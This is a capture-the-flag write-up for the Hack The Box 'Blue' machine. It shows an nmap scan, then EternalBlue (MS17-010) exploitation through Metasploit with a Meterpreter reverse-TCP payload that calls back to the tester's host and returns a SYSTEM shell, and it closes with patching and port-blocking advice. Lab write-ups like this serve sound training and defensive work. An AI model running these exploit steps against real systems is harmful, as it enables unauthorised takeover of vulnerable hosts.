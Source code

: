 
# Blue

- Introduction
- Summary
- Walkthrough
- Mitigrations
- References 


## Introduction 

The Blue machine on HTB is a simple yet poignant box that demonstrates the severity of the eternalblue vulnerability. A vulnerability in SMBv1 that allows specially crafted packets to be sent to the host server.  

## Summary 

The testing of the Blue host uncovered a severe vulnerability in the a communication Protocol on the target host which could basically give a malicious actor complete control on the host in question. Fortunately, the vulnerability has an official patch that can be applied but blocking the service maybe a helpful temporary and short term fix.

## Blue

The tester started by running an Nmap scan to enumerate the host services.

```
└──╼ $nmap -A 10.10.10.40 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-06 18:27 EST
Nmap scan report for 10.10.10.40
Host is up (0.094s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 23s, deviation: 1s, median: 22s
| smb2-time: 
|   date: 2023-11-06T23:28:59
|_  start_date: 2023-11-06T23:24:28
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-11-06T23:28:58+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.51 seconds
```

The tester researched the OS version, which was shown in the nmap scan, and found that this version of windows is vulnerable to the eternalblue exploit which allows RCE on a vulnerable host. The tester used the metasploit module "ms17_010_eternalblue" to exploit this vulnerablility. 

```
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), see https://docs.metasploit.com/docs/usi
                                             ng-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Onl
                                             y affects Windows Server 2008 R2, Windows 7, Windows Embedde
                                             d Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only af
                                             fects Windows Server 2008 R2, Windows 7, Windows Embedded St
                                             andard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Wind
                                             ows Server 2008 R2, Windows 7, Windows Embedded Standard 7 t
                                             arget machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.21      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> exploit

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.10.10.40
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (10.10.14.21:4444 -> 10.10.10.40:49158) at 2023-11-08 10:53:17 -0500

(Meterpreter 2)(C:\Windows\system32) > getuid
Server username: NT AUTHORITY\SYSTEM


```

Once executed, the module returns a system level shell giving the tester control of the system.

## Mitigations 

- Until patched, block port 445
- Install microsoft offical patch 

References
--

- https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010

